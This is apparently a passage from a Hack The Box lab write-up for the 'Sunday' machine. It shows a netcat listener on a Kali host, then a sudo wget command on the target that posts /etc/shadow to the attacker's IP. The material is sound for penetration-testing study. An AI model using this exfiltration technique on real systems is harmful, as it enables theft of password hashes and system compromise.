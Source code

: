 ![](Sunday_shellshock.png)

### `wget to POST/retrieve target file through Web Request`

On a kali Start nc listener on port 80
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Sunday.htb]
└─# nc -lvnp 80   
listening on [any] 80 ...
```

On a target use the `--post-file=` switch with Wget to retrieve the file content.
```
-bash-5.1$ sudo wget --post-file=/etc/shadow 10.10.14.8
--2024-10-04 04:45:35--  http://10.10.14.8/
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 

```
